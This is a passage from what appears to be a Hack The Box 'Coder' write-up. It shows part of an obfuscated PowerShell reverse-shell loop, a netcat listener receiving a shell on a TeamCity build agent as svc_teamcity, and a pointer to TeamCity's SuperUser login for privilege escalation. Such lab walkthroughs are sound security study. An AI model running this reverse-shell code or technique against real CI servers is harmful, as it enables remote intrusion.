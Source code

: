 ```bash
+while(($i = $replace.Read($int, 0, $int.Length)) -ne 0){;
+$ROM = [text.encoding]::ASCII.GetString($int,0, $i);
+$I = (nothingHere $ROM 2>&1 | K );
+$I2  = $I + (pwd).Path + '> ';
+$U = [text.encoding]::ASCII.GetBytes($I2);
+$replace.Write($U,0,$U.Length);
+$replace.Flush()};
+$BT.Close()
```

![upload-shell](./images/upload-shell.png "CI/CD Command execution")

```bash
❯ rlwrap nc -nlvp 9005
listening on [any] 9005 ...
connect to [10.10.14.49] from (UNKNOWN) [10.129.229.190] 59269
(c) Microsoft Corporation. All rights reserved.

C:\TeamCity\buildAgent\work\74c2f03019966b3e>whoami
coder\svc_teamcity
C:\TeamCity\buildAgent\work\74c2f03019966b3e>

```

---

## Horizontal Privilege Escalation

---

### TeamCity Super User

I couldn't find anything significant as `svc_teamcity`, but I did notice the presence of a [SuperUser](https://www.jetbrains.com/help/teamcity/2022.10/super-user.html) in TeamCity's documentation. SuperUser login can be found at `https://teamcity-dev.coder.htb/login.html?super=1`.
